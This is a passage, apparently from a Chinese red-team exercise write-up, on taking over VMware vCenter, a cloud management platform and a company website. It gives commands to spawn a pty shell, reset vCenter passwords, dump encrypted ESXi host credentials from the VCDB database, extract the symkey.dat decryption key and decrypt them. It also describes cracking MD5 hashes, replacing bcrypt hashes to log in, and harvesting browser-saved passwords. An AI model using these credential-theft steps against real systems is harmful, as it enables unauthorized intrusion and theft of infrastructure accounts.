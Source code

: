     
    
    python -c 'import pty;pty.spawn('/bin/bash')'

重置密码  

  * 

    
    
    /usr/lib/vmware-vmdir/bin/vdcadmintool

不重置密码获取密码  

https://github.com/shmilylty/vhost_password_decrypt

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #获取vc用户的密码  cat /etc/vmware-vpx/vcdb.properties    
    #把加密后的密码单独拿出来，  psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip\_address,user\_name,password from vpx\_host;" > password.enc  #改成这种格式\*  H8BBiGe3kQqaujz3ptZvzhWXXZ0M6QOoOFIKL0p0cUDkWF/iMwikwt7BCrfEDRnXCqxoju4t2fsRV3xNMg==\*  zR20RvimwMPHz7U6LJW+GnmLod9pdHpdhIFO+Ooqk0/pn2NGDuKRae+ysy3rxBdwepRzNLdq6+paOgi54Q==\*  Q81OIBXziWr0orka0j++PKMSgw6f7kC0lCmITzSlbl/jCDTuRSs07oQnNFpSCC6IhZoPPto5ix0SccQPDw==\*  R6HqZzojKrFeshDIP8vXPMhN28mLDHiEEBSXWYXNHrQQvHcuLOFlLquI2oLRfqLiPlHwkmAxUj9hKj3VZA==    
    #拿解密key  cat /etc/vmware-vpx/ssl/symkey.dat  Windows：C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\ssl\\symkey.dat  Linux：/etc/vmware-vpx/ssl/symkey.dat    
    #破解  python decrypt.py symkey.dat password.enc pass.txt

然后就可以登入web控制台了  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092130.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092131.png)

  

 **云管平台**

通过运维机的xshell查找历史记录拿下了主备数据库，然后执行sql语句成功获取出了云管平台的hash

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092133.png)

  

到cmd5上进行解密，一块钱拿下云管平台很划算![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092134.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092136.png)

  

但某些系统加密方式不是使用md5的，比如之前碰到的一些系统使用的是Bcrypt加密方式，像这种不可逆的加密方式可以通过替换hash进行登录

  * 

    
    
    $2a$10$z0hHT9rltH59VvcazrSzOuVDNr05shwja1aZmD8ctzDbuNNvdpNIS

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092137.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092138.png)

  

 **官网**

当我们拿到集权设备后，一般里面会有靶标系统或核心系统，这些分数是很高的，这次演练某目标就是通过云管平台登录官网机器，抓取浏览器密码成功获取后台密码，成功拿下官网控制权
